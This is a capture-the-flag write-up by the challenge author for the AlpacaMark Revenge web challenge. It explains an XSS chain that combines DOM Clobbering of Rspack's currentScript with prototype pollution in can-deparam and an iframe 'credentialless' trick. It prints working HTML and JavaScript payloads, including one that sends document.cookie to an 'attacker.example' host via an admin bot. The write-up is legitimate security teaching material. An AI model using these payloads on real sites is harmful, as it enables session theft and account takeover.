



import {Tweet} from "@site/src/components/tweet";

This is a writeup for AlpacaMark, a challenge I created for AlpacaHack Round 11 (Web). Due to an unintended solution, I released a revised version called "AlpacaMark Revenge" after the CTF.

<Tweet html='<blockquote class="twitter-tweet"><p lang="en" dir="ltr">XSS Challenge Time🚩<br><br>Do you like client-side challenges?<br>If you find the solution, submit the flag!<br><br>Challenge link:<a href="https://t.co/DlHA66tkoF">https://t.co/DlHA66tkoF</a> <a href="https://t.co/I4xcKYPzHw">pic.twitter.com/I4xcKYPzHw</a></p>&mdash; Ark (@arkark_) <a href="https://twitter.com/arkark_/status/1923694620468445673?ref_src=twsrc%5Etfw">May 17, 2025</a></blockquote> <script async src="https://platform.twitter.com/widgets.js" charset="utf-8"></script>'></Tweet>

Result:



Congratulations to icesfont for the first blood!

Keywords:

- DOM Clobbering
- Prototype Pollution
- iframe's `credentialless` attribute

<!-- truncate -->

Links:

- Challenge Link: https://alpacahack.com/challenges/alpaca-mark-revenge
- Challenge Source / Solver: https://github.com/arkark/my-ctf-challenges/tree/main/challenges/202505_AlpacaHack_Round_11/web/alpaca-mark-revenge

## Overview

The goal of this client-side challenge is to achieve XSS.



The server-side code is quite simple:
```javascript title="server/index.js"
const app = express();

app
  .use(express.static("dist"))
  .set("view engine", "ejs")
  .set("views", "server/views");

app.get("/", (req, res) => {
  const nonce = crypto.randomBytes(16).toString("base64");
  res.setHeader(
    "Content-Security-Policy",
    `script-src 'strict-dynamic' 'nonce-${nonce}'; default-src 'self'; base-uri 'none'`
  );

  const markdown = req.query.markdown?.slice(0, 512) ?? DEFAULT_MARKDOWN;
  if (/<script/i.test(markdown)) {
    return res.status(400).send(":(");
  }

  res.render("index", {
    nonce,
    markdown,
  });
});

app.listen(3000);
```

The application uses EJS, and the `markdown` parameter is inserted without escaping, leading to an obvious HTML injection vulnerability:
```html title="server/views/index.html"
<textarea name="markdown" required><%- markdown %></textarea>
```

However, there's the following CSP:
```
script-src 'strict-dynamic' 'nonce-${nonce}'; default-src 'self'; base-uri 'none'
```

Client-side static files (JavaScript/CSS) are bundled using [Rspack](https://github.com/web-infra-dev/rspack):
```javascript title="rspack.config.js"
import { defineConfig } from "@rspack/cli";

export default defineConfig({
  entry: {
    main: "./client/index.js",
  },
  experiments: {
    css: true,
  },
  devtool: false,
});
```

The client-side JavaScript uses [can-deparam](https://github.com/canjs/can-deparam). This library has a known Prototype Pollution vulnerability, which will be key to our exploit:

- https://github.com/BlackFan/client-side-prototype-pollution/blob/master/pp/canjs-deparam.md

```javascript title="client/index.js"
const markdown =
  localStorage.getItem("markdown") ??
  (await import("can-deparam").then(
    ({ default: deparam }) => deparam(location.search.slice(1)).markdown ?? ""
  ));
localStorage.setItem("markdown", markdown);
```

## Solution

### Step 1: DOM Clobbering with Prototype Pollution

Vulnerabilities related to DOM Clobbering gadgets have recently been reported in several libraries. Examples include:

- Vite: https://github.com/vitejs/vite/security/advisories/GHSA-64vr-g452-qvp3
- Webpack: https://github.com/webpack/webpack/security/advisories/GHSA-4vvj-4cpr-p986
- Rollup: https://github.com/rollup/rollup/security/advisories/GHSA-gcx4-mw62-g8wm
- Rspack: https://github.com/web-infra-dev/rspack/security/advisories/GHSA-84jw-g43v-8gjm

Rspack, used in this challenge, is one such library.

:::info
The reporter of the above CVEs has created a repository collecting DOM Clobbering gadgets:

- https://github.com/jackfromeast/dom-clobbering-collection
:::

In Rspack, when using dynamic imports, scripts are loaded from URLs based on `document.currentScript.src`:
```javascript
if (document.currentScript)
  scriptUrl = document.currentScript.src;
```

However, if you could inject HTML like the following, it would allow arbitrary script loading, leading to XSS:
```html

```

To mitigate this DOM Clobbering attack, the following check was added:
```javascript
if (document.currentScript && document.currentScript.tagName.toUpperCase() === 'SCRIPT')
  scriptUrl = document.currentScript.src;
```

This challenge uses Rspack version 1.3.9, which includes this fix.

Can this DOM Clobbering countermeasure be bypassed?

Yes, it can be bypassed **if a Prototype Pollution vulnerability exists!**

Specifically, you can bypass it by injecting HTML like this:
```html
<iframe name=currentScript srcdoc="
<script>
// Prototype Pollution
({}).__proto__.tagName = 'SCRIPT';
({}).__proto__.src = 'https://attacker.example/';
</script>
"></iframe>
```

In this case, `document.currentScript.tagName` will evaluate to `"SCRIPT"`.

In practice, you need to wait for the iframe's content to render. This can be achieved by delaying the main script execution until the iframe's content is rendered, for example, by using multiple `<link rel=stylesheet>` tags to block rendering:
```html
<iframe name=currentScript srcdoc="
<script>
({}).__proto__.tagName = 'SCRIPT';
({}).__proto__.src = 'https://attacker.example/';
</script>
"></iframe>
<link rel=stylesheet href=/0>
<link rel=stylesheet href=/1>
<link rel=stylesheet href=/2>
<link rel=stylesheet href=/3>
<link rel=stylesheet href=/4>
<link rel=stylesheet href=/5>
<link rel=stylesheet href=/6>
```

### Step 2: iframe's `credentialless` Trick

Considering Step 1, you might think that reporting a URL like the one below would achieve XSS:
```javascript
const CONNECTBACK_URL = "https://attacker.example";

const markdown = `
</textarea>
<iframe name=currentScript src="/?__proto__[tagName]=SCRIPT&__proto__[src]=data:,location='${CONNECTBACK_URL}/'%2bdocument.cookie//"></iframe>
<link rel=stylesheet href=/0>
<link rel=stylesheet href=/1>
<link rel=stylesheet href=/2>
<link rel=stylesheet href=/3>
<link rel=stylesheet href=/4>
<link rel=stylesheet href=/5>
<link rel=stylesheet href=/6>
<textarea>
`.trim();

const url = `http://alpaca-mark:3000?${new URLSearchParams({ markdown })}`;
console.log(url);
// Report this URL to the admin bot.
```

However, there's another hurdle in this challenge.

```javascript title="client/index.js"
const markdown =
  localStorage.getItem("markdown") ??
  (await import("can-deparam").then(
    ({ default: deparam }) => deparam(location.search.slice(1)).markdown ?? ""
  ));
localStorage.setItem("markdown", markdown);
```

This web service behaves as follows:

- On the first visit:
    1. Parses the URL query using the `can-deparam` library.
    1. Retrieves the value of the `markdown` query parameter.
    1. Saves it to `localStorage`.
- On subsequent visits:
    1. Retrieves the `markdown` value from `localStorage`.

Since `can-deparam` is not used on subsequent visits, Prototype Pollution won't occur. This means that with the DOM Clobbering payload above, properties cannot be polluted inside the iframe.

Is there a way to enable Prototype Pollution inside the iframe?

Yes, the iframe's `credentialless` attribute comes to the rescue! This attribute isolates the iframe's `localStorage` from the parent document's `localStorage`.

:::info
HTMLIFrameElement: credentialless property

> Those contexts do not have access to their network, cookies and storage data associated with their origin. Instead, **they use new ones**, local to the top-level document lifetime.

Source: https://developer.mozilla.org/en-US/docs/Web/API/HTMLIFrameElement/credentialless
:::

I tested the behavior in Chrome:


In the credentialless iframe `ifr2`, `localStorage.getItem("test")` is `null`.

Therefore, by adding the `credentialless` attribute to the iframe, the attack becomes successful!

```javascript
const CONNECTBACK_URL = "https://attacker.example";

const markdown = `
</textarea>
<iframe name=currentScript src="/?__proto__[tagName]=SCRIPT&__proto__[src]=data:,location='${CONNECTBACK_URL}/'%2bdocument.cookie//" credentialless></iframe>
<link rel=stylesheet href=/0>
<link rel=stylesheet href=/1>
<link rel=stylesheet href=/2>
<link rel=stylesheet href=/3>
<link rel=stylesheet href=/4>
<link rel=stylesheet href=/5>
<link rel=stylesheet href=/6>
<textarea>
`.trim();

const url = `http://alpaca-mark:3000?${new URLSearchParams({ markdown })}`;
console.log(url);
// Report this URL to the admin bot.
```

## Solver

My entire solver can be found here:

- https://github.com/arkark/my-ctf-challenges/blob/main/challenges/202505_AlpacaHack_Round_11/web/alpaca-mark-revenge/solution/index.js
